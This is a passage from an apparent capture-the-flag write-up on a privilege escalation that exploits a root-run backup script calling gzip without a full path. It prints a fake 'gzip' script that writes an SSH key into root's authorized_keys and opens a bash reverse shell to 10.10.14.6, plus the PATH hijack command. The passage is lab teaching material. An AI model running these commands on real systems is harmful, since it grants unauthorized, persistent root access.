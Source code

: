 The script is backing up logs to `/var/backups`:

```

#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz

```

The comment says they knows they shouldn’t be running this as root, but that they need to fix the permissions later. That’s a directory that is owned by and writable by root, which is why m4lwhere needs `sudo` to run it:

```

m4lwhere@previse:~$ ls -ld /var/backups/
drwxr-xr-x 2 root root 4096 Aug 16 07:42 /var/backups/

```

### Path Injection

The vulnerability in this script is that `gzip` is called without a complete path. In `/dev/shm`, I’ll create a simple script called `gzip`. There are many things I could do, including just calling `bash`, though I had some issues getting that to work. I’ll have it write my public key into root’s `authorized_keys` file and spawn a reverse shell:

```

#!/bin/bash

# enable root ssh
mkdir -p /root/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys

# rev shell
bash -i >& /dev/tcp/10.10.14.6/443 0>&1

```

Now I’ll set my path to start with `/dev/shm`:

```

m4lwhere@previse:/dev/shm$ export PATH=/dev/shm:$PATH
m4lwhere@previse:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

